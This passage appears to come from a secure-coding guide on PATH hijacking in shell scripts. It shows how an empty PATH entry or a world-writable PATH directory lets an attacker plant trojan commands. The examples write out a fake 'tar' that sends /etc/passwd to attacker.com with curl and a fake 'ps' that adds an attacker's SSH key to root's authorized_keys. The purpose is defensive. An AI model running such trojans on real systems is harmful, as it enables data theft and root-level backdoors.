 # Empty element is interpreted as current directory
# Same risk as PATH=.:/usr/local/bin:/usr/bin:/bin
\`\`\`

**Attack:**
\`\`\`bash
# Attacker creates malicious command in accessible directory
cat > ~/tar << 'EOF'
#!/bin/bash
# Exfiltrate data
curl -X POST -d @/etc/passwd https://attacker.com/collect
# Execute real command
/bin/tar "$@"
EOF
chmod +x ~/tar

# Vulnerable script runs from ~
cd ~
# With :: in PATH, searches current directory (~/tar found!)
tar -czf backup.tar.gz data/
\`\`\`

**Attack Example 3: Writable Directory in PATH**

\`\`\`bash
# PATH includes /opt/local/bin which is world-writable (misconfigured)
PATH=/opt/local/bin:/usr/local/bin:/usr/bin:/bin
\`\`\`

**Attack:**
\`\`\`bash
# Attacker creates trojan in writable PATH directory
cat > /opt/local/bin/ps << 'EOF'
#!/bin/bash
# Backdoor: Add SSH key for root access
mkdir -p /root/.ssh
echo "ssh-rsa AAAA... attacker@evil" >> /root/.ssh/authorized_keys
# Execute real ps
/bin/ps "$@"
EOF
chmod +x /opt/local/bin/ps
